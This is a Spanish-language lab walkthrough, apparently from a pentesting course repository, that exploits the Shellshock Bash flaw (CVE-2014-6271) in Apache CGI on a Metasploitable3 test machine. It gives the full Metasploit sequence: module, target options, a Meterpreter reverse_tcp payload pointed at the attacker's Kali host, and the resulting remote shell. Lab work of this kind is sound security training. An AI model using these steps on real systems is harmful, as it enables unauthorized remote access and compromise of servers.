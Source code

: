 # Explotar vulnerabilidad CVE-2014-6271 (Shellshock) presente en Apache.

Requisitos:
1. Máquina ***Kali Linux***.
2. Máquina ***Metasploitable3_ubu1404***.

Este laboratorio muestra como usar la vulnerabilidad ***Shellshock*** que consigue ejecutar código mediante su inyección en una variable de entorno de Bash. Para ello usa el módulo ***mod_cgi*** del servidor Apache. Aquí tienes información sobre la vulnerabilidad: https://www.cvedetails.com/cve/CVE-2014-6271/.

La debilidad se encuentra en cómo la shell ***Bash*** gestiona las variables de entorno externas. Utiliza ***scripts CGI*** en el servidor web Apache inyectando una función maliciosa en la variable de entorno ***HTTP_USER_AGENT***.

Usamos ***nmap*** contra la víctima para determinar si está presente el servidor Apache.
```
nmap -sV 192.168.20.13 -p 80, 443
```

Como puede observarse en la imagen, está presente el servidor ***Apache 2.4.7*** en el puerto ***80***.

![Servidor Apache presente](../img/lab-30-B/202208111032.png)

Cargamos la consola de ***Metasploit*** sino estuviera ya iniciada.
```
msfconsole
```

Procedemos a cargar el módulo para realizar el ataque.
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Mostramos las ***opciones*** de este exploit.
```
show options
```

Las opciones son las siguientes.

![Opciones del módulo](../img/lab-30-B/202208111038.png)

Las configuraciones que debemos proporcionar son:

* *CMD_MAX_LENGTH*: Obligatoria. Es el número de caracteres que vamos a inyectar en la víctima. El valor 2048 suele ser suficiente para albergar las diferentes ***payloads*** disponibles. No lo cambiamos.
* *CVE*: Obligatoria. Contiene la vulnerabilidad a explotar, pudiendo elegir entre CVE-2014-6271 (https://www.cvedetails.com/cve/CVE-2014-6271/) y CVE-2014-6278 (https://www.cvedetails.com/cve/CVE-2014-6278/). Esta última es una variante de la anterior. Dejaremos el valor por defecto.
* *HEADER*: Obligatoria. Especifica la cabecera HTTP que será usada para inyectar el código malicioso. Debe ser ***User-Agent***, así que no la cambiamos.
* *METHOD*: Obligatoria. Especifica el verbo HTTP a utilizar. Debe ser ***GET***. No lo cambiamos.
* *Proxies*: Opcional. Permite relizar el ataque a través de un proxy. No lo usaremos.
* *RHOSTS: Obligatoria. IP(s) de la víctima(s). Ponemos la de ***Metasploitable-ubu1404***, que es ***192.168.20.13***.
* *RPATH*: Obligatoria. Ruta para los binarios usados por el ***Command Stager***. Cuando un payload es largo, el ataque podría no funcionar porque no es posible inyectar la totalidad de dicho payload. El ***Command Stager*** es un pequeño programa que puede ser inyectado, siendo su misión la de descargar el payload verdadero por trozos o partes (etapas). Dejamos la ruta por defecto.
* *RPORT*: Puerto que está sirviendo Apache. Como hemos visto con ***nmap*** es el ***80***. Lo dejamos tal cual.
* *SRVHOST*: Obligatoria. IP del servidor en la máquina ***Kali*** que recibirá la conexión del payload. Si solo disponemos de una IP, es indiferente. No cambiamos este ajuste.
* *SRVPORT*: Obligatoria. Puerto del servidor en la máquina ***Kali*** desde el que el ***CmdStager*** se descargará el payload. Dejamos este valor.
* *SSL*: Opcional. Podemos ocultar el tráfico del payload por medio de SSL. Su finalidad es evadir la detección de los ***IPS***. No lo usamos.
* *SSLCert*: Opcional. Certificado necesario para usar SSL. No lo usamos.
* *TARGETURI*: Ruta al script CGI que será inyectado y que deseamos ejecutar. Lo cambiamos a ***/cgi-bin/hello_world.sh***.
* *TIMEOUT*: Obligatorio. Tiempo de espera para recibir la response. Lo dejamos como está.
* *URIPATH*: Opcional. Este exploit no usa URI. Lo dejamos en blanco.
* *VHOST*: Opcional. Un ***Virtual host*** es una forma de alojamiento web que permite que varias paginas web puedan funcionar en un mismo host. Nuestro objetivo no es un virtual host, así que lo dejamos en blanco.

```
set RHOSTS 192.168.20.13
```

```
set TARGETURI /cgi-bin/hello_world.sh
```

Es el momento de mostrar los payloads compatibles con este ataque.
```
show payloads
```

Tenemos mucha diversidad.

![Lista de payloads](../img/lab-30-B/202208111124.png)

Vamos a usar un ***Meterpreter***.
```
set payload linux/x86/meterpreter/reverse_tcp
```
```
show options
```

Debemos configurar las opciones del payload.

![Opciones del payload](../img/lab-30-B/202208111129.png)

Establecemos como atacante la máquina de ***Kali***.
```
set LHOST 192.168.20.9
```

Respecto a ***LPORT*** dejamos el valor propuesto (***4444***). A este puerto se conectará el payload de meterpreter para ofrecernos la shell inversa.

Mostramos los ***targets***.
```
show targets
```

Hay dos candidatos, pero cuidado, el payload de meterpreter que hemos elegido es ***x86***, por lo que no funcionará en sistemas de ***64*** bits. Mejor elegimos el ***target 0*** (un sistema de 64 también lo es de 32).
```
set target 0
````

El comando ***Check*** nos indica si se cumplen todas las condiciones para que el ataque pueda prosperar. Si nos dijera ***el objetivo NO es vulnerable*** seguro que el ataque no funcionará. Por el contrario, si la respuesta es ***el objetivo ES vulnerable***, solo nos informa que se cumplen las condiciones, pero no es garantía de que funcione. La víctima puede tener contramedidas (antivirus, IPS, etc) o incluso estar parcheada.
```
check
```

En principio podemos seguir con el ataque.

![Target is vulnerable](../img/lab-30-B/202208111155.png)

Solo resta lanzar el ataque y esperar obtener una shell inversa.
```
run
```

Ya tenemos una shell inversa de Meterpreter en la víctima.

![Shell de Meterpreter](../img/lab-30-B/202208111157.png)

Ejecutamos algunos comandos
```
sysinfo
```
```
help
````
```
exit
```
